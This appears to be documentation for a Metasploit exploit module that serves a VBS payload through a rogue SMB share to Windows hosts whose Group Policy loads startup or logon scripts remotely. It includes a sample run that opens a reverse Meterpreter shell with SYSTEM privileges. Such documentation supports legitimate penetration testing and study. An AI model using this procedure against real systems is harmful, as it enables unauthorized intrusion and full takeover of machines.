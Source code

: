 ## Vulnerable Application

This is a general-purpose module for exploiting systems with Windows Group Policy configured to load VBS startup/logon scripts from remote locations. This module runs a SMB shared resource that will provide a payload through a VBS file. Startup scripts will be executed with SYSTEM privileges, while logon scripts will be executed with the user privileges. The attacker still needs to redirect the target traffic to the fake SMB share to exploit it successfully. Please note in some cases, it will take 5 to 10 minutes to receive a session.

More information available at [Gotham Digital Science Security](https://blog.gdssecurity.com/labs/2015/1/26/badsamba-exploiting-windows-startup-scripts-using-a-maliciou.html)

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/exploits/windows/smb/group_policy_startup`
  3. Do: `exploit`

## Options

  ```
  FILE_NAME
  ```
  VBS File name to share (Default: random .vbs)

  ```
  FOLDER_NAME
  ```
  Folder name to share (Default: none)

  ```
  SHARE
  ```
  Share name (Default: Random)


## Scenarios

A run on Windows 7 (x64, Build 7601, SP1) and Server 2016 (x64, Version 1607, OS Build 14393.970) using Group Policy applied from the Domain Controller.

  ```
  msf > use modules/exploits/windows/smb/group_policy_startup
  msf exploit(windows/smb/group_policy_startup) > set FILE_NAME startup.vbs
    FILE_NAME => startup.vbs
  msf exploit(windows/smb/group_policy_startup) > set SHARE scripts
    SHARE => scripts
  msf exploit(windows/smb/group_policy_startup) > exploit
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] File available on \\192.168.1.3\scripts\startup.vbs...
    [*] Started service listener on 192.168.1.3:445
    [*] Server started.
    [*] Sending stage (180291 bytes) to 192.168.1.4
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.4:49178) at 2019-12-04 13:12:05 -0700
  msf exploit(windows/smb/group_policy_startup) > sessions 1
    [*] Starting interaction with 1...

  meterpreter > sysinfo
    Computer        : MSF-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : MSF
    Logged On Users : 1
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```
